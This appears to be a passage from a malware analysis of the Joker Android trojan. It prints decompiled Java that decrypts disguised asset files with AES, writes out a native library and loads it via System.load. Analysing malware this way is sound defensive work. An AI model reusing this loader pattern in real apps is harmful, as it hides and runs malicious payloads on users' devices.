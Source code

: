 We can see that the method is reading for **some** **files** in **assets**.
And we have the **for** and **if** functions when the filename ends in **301.txt**, then, **call c.a.v()**
![[joker7.png]]

```java
if (str2.endsWith(c.a.o(new StringBuffer("spqn484"), new StringBuffer("@")))) {
```
Here we can **find** the “**txt**” files.. (they are binaries).
![[joker8.png]]

Returning to **c.a.v()**
Here is the **method**
```java
public static void v(Context context, String str, String str2, String str3) {
    if (TextUtils.isEmpty(str3)) {
        return;
    }
    try {
        FileInputStream fileInputStream = new FileInputStream(str);
        FileOutputStream fileOutputStream = new FileOutputStream(str3);
        byte[] bytes = str2.getBytes();
        MessageDigest messageDigest = MessageDigest.getInstance("SHA-1");
        SecretKeySpec secretKeySpec = new SecretKeySpec(Arrays.copyOf(messageDigest.digest(bytes), 16), "AES");
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(2, secretKeySpec, new IvParameterSpec(Arrays.copyOf(messageDigest.digest(bytes), 16)));
        CipherInputStream cipherInputStream = new CipherInputStream(fileInputStream, cipher);
        byte[] bArr = new byte[8];
        while (true) {
            int read = cipherInputStream.read(bArr);
            if (read == -1) {
                System.load(str3);
                JokerNat.goto2((AssetManager) context.getClass().getMethod(o(new StringBuffer("FAUeRWDPR"), new StringBuffer("!$")), new Class[0]).invoke(context, new Object[0]));
                fileOutputStream.flush();
                fileOutputStream.close();
                cipherInputStream.close();
                return;
            }
            fileOutputStream.write(bArr, 0, read);
        }
    } catch (FileNotFoundException | UnsupportedEncodingException | IOException | IllegalAccessException | NoSuchMethodException | InvocationTargetException | InvalidAlgorithmParameterException | InvalidKeyException | NoSuchAlgorithmException | NoSuchPaddingException e2) {
        e2.printStackTrace();
    }
}
```

**str2** is the **key**, and **second arg**
And, the **first arg** is **str**, that is **2 (DECRYPT_MODE)** in **AES** → **cipher.init**()
So now, we just know the **str3** value.
Looking in the **previous** java code, we can see that some is created as **temp file**.
